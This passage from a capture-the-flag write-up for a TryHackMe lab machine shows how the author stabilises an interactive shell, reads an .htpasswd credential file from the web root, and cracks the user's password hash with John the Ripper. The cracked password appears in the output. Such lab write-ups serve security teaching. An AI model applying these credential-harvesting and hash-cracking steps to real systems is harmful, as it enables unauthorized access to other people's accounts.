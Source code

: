 And then type `fg` to foreground the process \(get it back\)

![](https://umar0x01.sh/img/debug-thm/Pasted%20image%2020210403143723.png)

Now that we’ve interactive shell, let’s add the _rows/cols \(generic\)_ and add some **colors UwU**!

```bash
PS1='${debian_chroot:+($debian_chroot)}\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ ' # green
alias ls='ls --color=auto'
alias grep='grep --color=auto'
alias fgrep='fgrep --color=auto'
alias egrep='egrep --color=auto'
alias ll='ls -alFh'
alias la='ls -A'
alias l='ls -CF'
```

![](https://umar0x01.sh/img/debug-thm/Pasted%20image%2020210403143941.png)

```d
stty rows 48
stty columns 211
export TERM=screen
```

![](https://umar0x01.sh/img/debug-thm/Pasted%20image%2020210403144025.png)

–

Alright, we got the initial shell and it’s fully interactive! Time to get the initial flag and privesc our way to root!

–

We can find a `.htpasswd` \(usually used for **HTTP authentication**\) file right in `/var/www/html/` containing the following credentials:

```d
www-data@osboxes:/var/www/html$ cat .htpasswd 
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
```

Let’s run john and try to crack these.

```d
┌──(root💀b0x)-[/mnt/hgfs/THM/Debug]
└─# john htpasswd.hash                           
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 84 candidates buffered for the current salt, minimum 96 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
jamaica          (james)
1g 0:00:00:00 DONE 2/3 (2021-04-03 14:42) 20.00g/s 41760p/s 41760c/s 41760C/s bigdog..88888888
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```
